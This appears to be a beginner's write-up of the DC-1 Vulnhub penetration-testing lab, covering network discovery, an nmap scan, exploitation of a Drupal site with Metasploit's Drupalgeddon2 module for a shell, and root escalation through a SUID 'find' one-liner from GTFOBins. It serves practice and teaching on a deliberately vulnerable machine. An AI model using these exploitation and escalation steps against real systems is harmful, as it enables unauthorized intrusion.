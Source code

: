 # DC1 Vulnhub Walkthrough

#### Description
DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

  
  # Scaning
  
  ### Reconnaissance 
  
Sudo NetDiscover
  
![Screenshot from 2023-01-16 01-16-55](https://user-images.githubusercontent.com/108471951/212977979-8eb9986d-cfe5-43c1-94aa-c37492e289ed.png)

Firstly we have to identify the machine IP address using tool like NetDiscover 
### Nmap

nmap -sV 192.168.0.119 (service version scan)

![Screenshot from 2023-01-17 23-48-32](https://user-images.githubusercontent.com/108471951/212979611-b732a639-bb5c-40b0-a1b5-463c7ed54654.png)


It’s a drupal site. This is first time i seen a Site named Drupal


# Exploiting

msfconsole

search drupal

I have searched for exploit for drupal site in metasploit.
Found some exploits. By using them tried to Exploit 

![Screenshot from 2023-01-16 01-19-36](https://user-images.githubusercontent.com/108471951/212982113-653ef59b-b982-4041-b120-1c32feb029e2.png)




use1

show options

set rhosts [target IP]

exploit

![Screenshot from 2023-01-16 01-20-37](https://user-images.githubusercontent.com/108471951/212984577-492ed27c-4f35-4dfb-a98f-e6e3b2723fb3.png)


After trying some exploits [ exploit/unix/webapp/drupal_drupalgeddon2 ] worked and given a meterpeter shell


![Screenshot from 2023-01-18 00-26-17](https://user-images.githubusercontent.com/108471951/212987116-b5d5c9e3-e308-431c-92ce-ce00bcab8eee.png)


Then using the [shell] comannd I got a Shell

![Screenshot from 2023-01-19 00-41-24](https://user-images.githubusercontent.com/108471951/213274935-894ceccf-4251-4e8e-a05d-38a363400f3b.png)


# Privilege Escalation

Then I tried to change directory to root but i dont have root privileges


![Screenshot from 2023-01-19 00-43-04](https://user-images.githubusercontent.com/108471951/213276028-0d9b9a2d-ddc9-4ccd-bbde-43acd7b08ab1.png)


find . -exec /bin/sh \; -quit

so in GTFOBins i find a script for gaining root accses 
https://gtfobins.github.io/gtfobins/find/#shell

![Screenshot from 2023-01-19 00-45-51](https://user-images.githubusercontent.com/108471951/213276479-72a98852-d402-4de5-b50f-eb9c0d4c800d.png)


